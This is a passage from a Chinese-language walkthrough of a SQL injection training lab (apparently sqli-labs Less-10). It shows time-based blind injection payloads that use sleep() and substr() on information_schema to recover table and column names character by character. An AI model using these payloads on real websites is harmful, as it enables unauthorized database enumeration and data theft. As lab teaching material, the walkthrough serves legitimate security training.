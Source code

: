 页面有延迟，说明联合数据表名长度大于13，再逐渐改变参数准确判断联合数据表名长度



+ 逐一判断联合数据表名字符

~~~ shell
?id=1" and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
~~~

![Less-10_6](./img/Less-10_6.PNG)

页面有延迟说明联合数据表名的第一个字符的<code>ASCII</code>值大于99，再逐渐改变参数确认联合数据表名的一个字符的<code>ASCII</code>值进而确定联合数据表名的第一个字符，然后再确定联合数据表名的其他字符



+ 判断联合字段名长度

~~~ shell
?id=1" and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>10,sleep(5),1)--+
~~~
